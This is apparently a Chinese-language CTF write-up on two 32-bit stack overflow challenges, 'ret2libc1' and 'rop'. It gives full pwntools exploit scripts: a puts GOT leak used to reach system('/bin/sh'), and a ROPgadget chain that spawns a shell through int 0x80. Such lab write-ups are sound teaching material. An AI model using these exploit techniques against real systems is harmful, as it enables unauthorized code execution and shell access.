




## ret2libc1

- `32`位`libc`泄露
- `cyclic`确定溢出位置的使用



> 变量`s`存在泄露,但是这里`ida`显示的栈空间并不准确



> 程序中存在`system`函数,可以直接利用

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```



```shell
bamuwe@qianenzhao:~/done/杂七杂八$ cyclic -l 0x62616164
112
```

得到溢出位置,`padding=112`

后续就是常规的利用,但是这里要注意第二次发送`payload`的时候栈填充长度是$104$,通过`gdb`调试可以直观的看到,不多赘述,奉上`exp`一则

```python
from pwn import *
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
#context.log_level = 'debug'
io = process('./ret2libc1')
#io = gdb.debug('./ret2libc1')
elf = ELF('./ret2libc1')
payload = b'A'*(112)+p32(elf.plt['puts'])+p32(elf.sym['main'])+p32(elf.got['puts'])
io.sendlineafter(b'RET2LIBC >_<\n',payload)
puts_addr = u32(io.recv(4))
print('puts_addr->{}'.format(hex(puts_addr)))

liboffset = puts_addr - Lib.sym['puts']
sys_addr = liboffset + Lib.sym['system']
bin_sh_addr = liboffset + next(Lib.search(b'/bin/sh'))

payload = b'A'*(100+4)+p32(sys_addr)+p32(0)+p32(bin_sh_addr)
io.sendlineafter(b'RET2LIBC >_<\n',payload)
io.interactive()
```

## rop

- one_gadgets



第一眼函数很多,什么都没有,但拨云见雾,不过如此

1. 通过`ROPgadgets`得到`ropchain`
2. 构造`payload`得到`shell`

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ ROPgadget --binary rop --ropchain
```

```python
from pwn import *
from struct import pack
io = process('./rop')
padding = b'A'*112
# Padding goes here
p = b''

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080bb196) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080bb196) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x0806eb91) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8

p += pack('<I', 0x080ea060) # padding without overwrite ebx

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x08049421) # int 0x80

payload = padding+p
io.sendlineafter(b'What do you plan to do?\n',payload)
io.interactive()
```

